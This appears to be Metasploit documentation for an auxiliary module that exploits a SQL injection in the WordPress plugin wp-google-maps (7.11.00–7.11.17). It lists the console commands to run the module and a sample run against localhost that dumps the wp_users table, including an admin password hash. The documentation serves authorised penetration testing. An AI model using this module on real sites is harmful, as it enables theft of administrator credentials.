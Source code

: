 ## Vulnerable Application

This module works against the Wordpress plugin `wp-google-maps` between 7.11.00 and 7.11.17 (included).

[The vulnerable version is available on WordPress' plugin directory](https://downloads.wordpress.org/plugin/wp-google-maps.7.11.17.zip).

## Verification Steps

  1. `msfconsole`
  2. `use auxiliary/admin/http/wp_google_maps_sqli`
  3. `set RHOSTS <rhost>`
  4. Set `DB_PREFIX` if necessary
  5. `run`

## Options

### `DB_PREFIX` 

Change the table prefix. By default, this option is set to `wp_`.

## Scenarios

### wp-google-maps 7.11.17 on WordPress 5.1.1

```
msf5 auxiliary(admin/http/wp_google_maps_sql_injection) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:80 - Trying to retrieve the wp_users table...
[+] 127.0.0.1:80 - Found admin $P$Bbfp4csOlKV/XoKGjqViW1pWFzTlQz/ junk@junk.tld
[!] No active DB -- Credential data will not be saved!
[+] Credentials saved in: /home/user/.msf4/loot/2019(...).txt
[*] Auxiliary module execution completed
```

